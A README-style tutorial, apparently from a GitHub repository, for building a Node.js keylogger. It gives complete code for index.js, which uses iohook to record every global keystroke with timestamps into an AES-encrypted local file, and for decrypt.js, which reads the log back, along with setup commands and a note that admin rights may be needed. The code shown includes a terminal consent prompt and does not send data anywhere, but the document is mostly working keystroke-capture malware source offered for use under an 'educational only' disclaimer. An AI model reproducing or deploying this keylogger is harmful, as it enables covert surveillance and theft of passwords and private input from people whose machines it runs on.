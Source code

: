# keyLOG
<!-- Made BY Binary Quest -->

<b>!!! NOTE - THIS CODE IS FOR EDUCATIONAL PURPOSE ONLY.(DON'T TRY IT WITHOUT KNOWLEDGE ABOUT THIS CODE)⚠️
>AUTHORS WON'T BE RESPONSIBLE FOR ANY ILLIGAL ACTIVITY</b>
1) Pre-requisites:

>Install Node.js (v14+ recommended) on your PC.

2) Create a new folder for your project and initialize:
Open your terminal/command prompt:


```
mkdir keylogger
cd keylogger
npm init -y
```

3) Install dependencies
We'll use:

iohook for global keyboard capturing
no external encryption lib needed, Node.js's crypto is sufficient
Install iohook:

```
npm install iohook
```

4) Create the main script: index.js
>step - In your text editor (VS Code, Notepad++, etc.), create a new file called index.js and paste this:

```
const iohook = require('iohook');
const readline = require('readline');
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc'); // encrypted log file path
const ALGORITHM = 'aes-256-cbc';

// Store logs in memory as lines of text
let logs = [];

// Generate a random IV for AES
function generateIV() {
  return crypto.randomBytes(16);
}

// Encrypt string with password using AES-256-CBC
function encrypt(text, password) {
  const iv = generateIV();
  const key = crypto.scryptSync(password, 'salt', 32);
  const cipher = crypto.createCipheriv(ALGORITHM, key, iv);
  let encrypted = cipher.update(text, 'utf8', 'hex');
  encrypted += cipher.final('hex');
  // Return iv + encrypted data as hex
  return iv.toString('hex') + ':' + encrypted;
}

// Ask user confirmation and password
function askQuestion(query) {
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise(resolve => rl.question(query, ans => {
    rl.close();
    resolve(ans);
  }));
}

(async () => {
  console.log("!!! WARNING: This program will record ALL your keyboard input.");
  let consent = await askQuestion("Do you want to start capturing keyboard input? (yes/no): ");
  consent = consent.trim().toLowerCase();

  if (consent !== 'yes') {
    console.log("Consent not given. Exiting.");
    process.exit(0);
  }

  const password = await askQuestion("Enter a password to protect your log file: ");
  if (!password) {
    console.log("Password cannot be empty. Exiting.");
    process.exit(1);
  }

  console.log("Keyboard logging started. Press Ctrl+C to stop and save.");

  // Listen for keyboard events
  iohook.on('keydown', event => {
    // Decode key - event.keychar may be undefined for some keys; log raw keycode and timestamp
    const time = new Date().toISOString();
    let keyStr = event.rawcode || event.keycode || event.keychar || 'UnknownKey';
    logs.push(`[${time}] Key: ${keyStr}`);
  });

  iohook.start();

  // On exit, save the encrypted log file
  const saveLogs = () => {
    if (logs.length === 0) {
      console.log("No keystrokes logged.");
      process.exit(0);
    }
    const plainText = logs.join('\n');
    const encrypted = encrypt(plainText, password);
    fs.writeFileSync(LOG_FILE, encrypted, { encoding: 'utf8' });
    console.log(`\nLogs saved encrypted to: ${LOG_FILE}`);
    process.exit(0);
  };

  process.on('SIGINT', () => {
    console.log('\nReceived interrupt signal. Saving logs...');
    iohook.stop();
    saveLogs();
  });

})();
```

5) Usage instructions:
Run the script by typing in terminal:

```
node index.js
```

It will display a warning and prompt:
Do you want to start capturing keyboard input? (yes/no):
Type yes if you want to proceed.

It will ask for a password to protect the log file.
Enter any password you want.

After that, all your key presses will be recorded until you press Ctrl+C to stop.

On exit, your log file will be saved encrypted as keylog.enc in the same folder.

6) To read the log file later
Here's a simple decrypt script you can create as decrypt.js to decrypt and view logs:

```
const crypto = require('crypto');
const fs = require('fs');
const path = require('path');

const LOG_FILE = path.join(__dirname, 'keylog.enc');
const ALGORITHM = 'aes-256-cbc';

function decrypt(encryptedText, password) {
  const [ivHex, encryptedData] = encryptedText.split(':');
  const iv = Buffer.from(ivHex, 'hex');
  const key = crypto.scryptSync(password, 'salt', 32);
  const decipher = crypto.createDecipheriv(ALGORITHM, key, iv);
  let decrypted = decipher.update(encryptedData, 'hex', 'utf8');
  decrypted += decipher.final('utf8');
  return decrypted;
}

const readline = require('readline');
const rl = readline.createInterface({ input: process.stdin, output: process.stdout });

rl.question('Enter password to decrypt log file: ', password => {
  if (!fs.existsSync(LOG_FILE)) {
    console.error('Log file not found!');
    process.exit(1);
  }
  const encryptedContent = fs.readFileSync(LOG_FILE, 'utf8');
  try {
    const decrypted = decrypt(encryptedContent, password);
    console.log('\n--- Decrypted Logs ---\n');
    console.log(decrypted);
  } catch (err) {
    console.error('Failed to decrypt file. Wrong password or corrupted file.');
  }
  rl.close();
});
```

Run it with:

```
node decrypt.js
```

Recap:
You'll have two scripts: index.js (to record) and decrypt.js (to read).

keylog.enc file stores encrypted logs.

Password you provide protects your data.

Notes:

This script uses native Node.js modules and a popular native keylogger iohook.

You might need to build iohook binaries on some platforms, Replit and some environments may not support it well. Preferred to run locally on your PC.

You must run this script with admin privileges on some systems for global keyboard capture.

>AGAIN NOT RECOMENDED TO USE WITHOUT PC OWNER'S PERMISSION.
